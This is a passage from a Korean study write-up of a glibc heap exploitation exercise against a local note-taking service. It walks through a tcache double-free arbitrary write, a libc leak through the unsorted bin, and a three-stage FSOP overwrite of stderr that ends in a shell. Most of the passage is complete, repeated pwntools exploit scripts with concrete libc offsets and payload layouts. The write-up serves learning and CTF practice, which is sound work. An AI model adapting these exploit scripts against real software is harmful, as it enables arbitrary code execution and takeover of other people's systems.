하지만, 맨앞에서 다루었듯, 고버전 Libc에선 `현재주소+크기를` 하여 나온 곳에 `PREV_INUSE를 여부를` 확인하므로, <br> 
당연하게도 지금 당장 `조작한 0x420 청크를 해체했다간` unsortbin에 청크가 들어가는것이 아닌,<br>
그대로 에러를 뱉고 프로세스가 종료될 것이다.

그래서 이를 해결하기위해 `청크 패딩을 뒷부분에` 넣어줘야한다.<br>
기본적으로 현재 청크의 맨 끝은 `힙베이스+0x430+0x30`이고, 우린 `힙베이스+0x430+0x420에`<br>
청크가 존재해야하기에, 식을 세워보면 아래와 같다
```plain
0x430 + 0x30 + ((n+0x10) * i) == 0x430 + 0x420

※ 여기서 n은 요청할 청크 크기, i는 몇 번 요청할지
```
대강 계산해보면, `0x60 청크를 총 9번` 생성하였을때 딱 0x430+0x420에 도달하므로,<br>
10번 생성하게되면 원하는 위치에 PREV_INUSE 청크가 존재할 것이다.

이제 대강 패딩도 계산했으니, 패딩을 생성하고 9번 청크를 해체한 후, 9번 청크를 릭하는 코드를 짜보면 아래와 같다.
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
victim = heap+0x430
new(8,0x20,p64(enc(victim,heap)))
new(9,0x20,b"8")
new(8,0x20,b"7")
payload = p64(0)
payload += p64(0x421)
new(10,0x20,payload)
for i in range(10):
    new(1,0x60,b"padding")
delete(9)
libc = read(9,6)
print(f"leak : {hex(libc)}")
```

이제 실행해보면, Unsortbin에 청크가 잘 들어가있으며, `vmmap으로` 추출된 립씨를 넣어봐도<br>
Libc 영역에 있는 주소라고 뜨는것을 확인할 수 있었다. 또한 추가적으로 Libc Base 오프셋도 구할수 있었다.

(디버깅 결과 Base의 오프셋은 0x203b20 였다)

### FSOP 체인 구성 1
이제 립씨를 구했으니 FS를 릭하여 `Exit_funcs로 쉘을` 획득할수도 있고, `FSOP를 하여 쉘을` 획득할수도 있지만,<br>
지금 당장 FSOP를 구성할수 있는 `AAW와 Libc Leak을` 모두 가지고 있기에 FSOP로 진행하였다.

일단 현재 우린 `Tcache 포화를 통한 DFB AAW를` 알고 있기에, 그냥 이거 활용해서 
`Stderr을 tcache에 걸고` AAW하여 FSOP를 구성할 수 있다. 하지만 코드를 보면
0xe0까지 한번에 바로 덮을순 없기에, `총 3번에 걸쳐서 Stderr을 덮어주었다.` 

아래는 doallocate 인자, doallocate 주소, OVERFLOW 조건을 덮는 익스코드이다
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
victim = heap+0x430
new(8,0x20,p64(enc(victim,heap)))
new(9,0x20,b"8")
new(8,0x20,b"7")
payload = p64(0)
payload += p64(0x421)
new(10,0x20,payload)
for i in range(10):
    new(1,0x60,b"padding")
delete(9)
libc = read(9,6)
base = libc-0x203b20
stderr = base+0x2044e0
system = base+0x58750
wjump = base+0x202228
write = base+0x203130
print(f"leak : {hex(libc)}")
print(f"leak : {hex(base)}")
print(f"leak : {hex(stderr)}")
print(f"leak : {hex(system)}")
print(f"leak : {hex(wjump)}")
print(f"leak : {hex(write)}")

# FSOP Chaining
pause()
for i in range(1,8,1):
    new(i,0x70,str(i).encode())
new(8,0x70,b"one"); new(9,0x70,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x70,str(i).encode())
new(8,0x70,p64(enc(stderr,heap)))
new(9,0x70,b"8")
new(8,0x70,b"7")
payload = flat({
    0: p64(0x68733B01),
    8: p64(0),     
    16: p64(1),   
    32: p64(0),    
    104: p64(system), 
}, filler=b"\x00")
new(10,0x70,payload)
```

이제 직접 실행하여 `stderr에` 값이 들어가있는걸 확인하면 원하는대로 잘 들어있는것을 확인할 수 있다.


### FSOP 체인 구성 2
이제 중간 FSOP를 구성해주었다. 중간에는 `_lock 주소, _wide_data를` 덮어주었다.<br>
아래는 `두번째로 FSOP 체인을 덮는` 익스코드이다. 
```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
victim = heap+0x430
new(8,0x20,p64(enc(victim,heap)))
new(9,0x20,b"8")
new(8,0x20,b"7")
payload = p64(0)
payload += p64(0x421)
new(10,0x20,payload)
for i in range(10):
    new(1,0x60,b"padding")
delete(9)
libc = read(9,6)
base = libc-0x203b20
stderr = base+0x2044e0
system = base+0x58750
wjump = base+0x202228
write = base+0x203130
print(f"leak : {hex(libc)}")
print(f"leak : {hex(base)}")
print(f"leak : {hex(stderr)}")
print(f"leak : {hex(system)}")
print(f"leak : {hex(wjump)}")
print(f"leak : {hex(write)}")

# FSOP Chaining
pause()
for i in range(1,8,1):
    new(i,0x70,str(i).encode())
new(8,0x70,b"one"); new(9,0x70,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x70,str(i).encode())
new(8,0x70,p64(enc(stderr,heap)))
new(9,0x70,b"8")
new(8,0x70,b"7")
payload = flat({
    0: p64(0x68733B01),
    8: p64(0),     
    16: p64(1),   
    32: p64(0),    
    104: p64(system), 
}, filler=b"\x00")
new(10,0x70,payload)

for i in range(1,8,1):
    new(i,0x50,str(i).encode())
new(8,0x50,b"one"); new(9,0x50,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x50,str(i).encode())
new(8,0x50,p64(enc(stderr+0x70,heap)))
new(9,0x50,b"8")
new(8,0x50,b"7")
payload = flat({
    136 - 0x70: p64(write),
    160 - 0x70: p64(stderr-0x10)
},filler=b"\x00")
new(10,0x50,payload)
```

이제 직접 실행하여 디버깅해보면 `Stderr에 _lock과 _wide_data가` 잘 들어있는것을 확인할 수 있었다. 


### FSOP 체인 구성 3
이제 대망의 마지막으로 `세번째 FSOP 체인을` 구성해주었다.<br>
이번 체인에서는 `FILE vtables, Wide vtable, OVERFLOW 조건등을` 덮어주었으며 코드는 아래와 같다. 

```python
from pwn import *

p = remote('localhost',1337)
context.log_level='debug'

def new(idx,size,data):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"1")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.sendlineafter(b"size: ",str(size).encode())
    p.sendafter(b"data: ",data)

def read(idx,len):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"2")
    p.sendlineafter(b"idx: ",str(idx).encode())
    p.recvuntil(f"note[{idx}]: ".encode(),drop=True)
    return u64(p.recvn(len).ljust(8,b"\x00"))

def delete(idx):
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"idx: ",str(idx).encode())

def exit():
    p.recvuntil(b"4. exit\n",drop=True)
    p.sendlineafter(b"> ",b"4")

def enc(target, heap):
    return target^(heap>>12)

# heap leak
pause()
new(1,0x10,b"leak")
delete(1)
heap = read(1,5) << 12
print(f"heap leak : {hex(heap)}")
new(1,0x10,b"exit")

# libc leak
pause()
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
new(8,0x20,b"one"); new(9,0x20,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x20,str(i).encode())
victim = heap+0x430
new(8,0x20,p64(enc(victim,heap)))
new(9,0x20,b"8")
new(8,0x20,b"7")
payload = p64(0)
payload += p64(0x421)
new(10,0x20,payload)
for i in range(10):
    new(1,0x60,b"padding")
delete(9)
libc = read(9,6)
base = libc-0x203b20
stderr = base+0x2044e0
system = base+0x58750
wjump = base+0x202228
write = base+0x203130
print(f"leak : {hex(libc)}")
print(f"leak : {hex(base)}")
print(f"leak : {hex(stderr)}")
print(f"leak : {hex(system)}")
print(f"leak : {hex(wjump)}")
print(f"leak : {hex(write)}")

# FSOP Chaining
pause()
for i in range(1,8,1):
    new(i,0x70,str(i).encode())
new(8,0x70,b"one"); new(9,0x70,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x70,str(i).encode())
new(8,0x70,p64(enc(stderr,heap)))
new(9,0x70,b"8")
new(8,0x70,b"7")
payload = flat({
    0: p64(0x68733B01),
    8: p64(0),     
    16: p64(1),   
    32: p64(0),    
    104: p64(system), 
}, filler=b"\x00")
new(10,0x70,payload)

for i in range(1,8,1):
    new(i,0x50,str(i).encode())
new(8,0x50,b"one"); new(9,0x50,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x50,str(i).encode())
new(8,0x50,p64(enc(stderr+0x70,heap)))
new(9,0x50,b"8")
new(8,0x50,b"7")
payload = flat({
    136 - 0x70: p64(write),
    160 - 0x70: p64(stderr-0x10)
},filler=b"\x00")
new(10,0x50,payload)

for i in range(1,8,1):
    new(i,0x40,str(i).encode())
new(8,0x40,b"one"); new(9,0x40,b"two")
for i in range(1,8,1):
    delete(i)    
delete(8); delete(9); delete(8)
for i in range(1,8,1):
    new(i,0x40,str(i).encode())
new(8,0x40,p64(enc(stderr+0xb0,heap)))
new(9,0x40,b"8")
new(8,0x40,b"7")
payload = flat({
    192-0xb0: p32(1),
    208-0xb0: p64(stderr),
    216-0xb0: p64(wjump),
},filler=b"\x00")
new(10,0x40,payload)
pause()

exit()
p.interactive()
```

이제 진짜 실행하여 `ls같은 명령어를` 쳐보면

`와!`<br>
드디어 FSOP 체인 구성에서 해방된것을 알 수 있다.

## 스터디 후기
스터디 처음 올라올 당시 시험기간 이랑 데프콘 등 별의별것이 다 엮어서<br>
`3달동안 익스 시도도` 못해봤었는데, 다시 와서 한번 해보니 정말 재밌었던것 같다.<br>
특히 `House of Botcake, House of Lore`등의 기법은 들어보지 못했었는데,<br>
이번 스터디에서 배울수 있어서 정말 좋았던것 같다

끗이다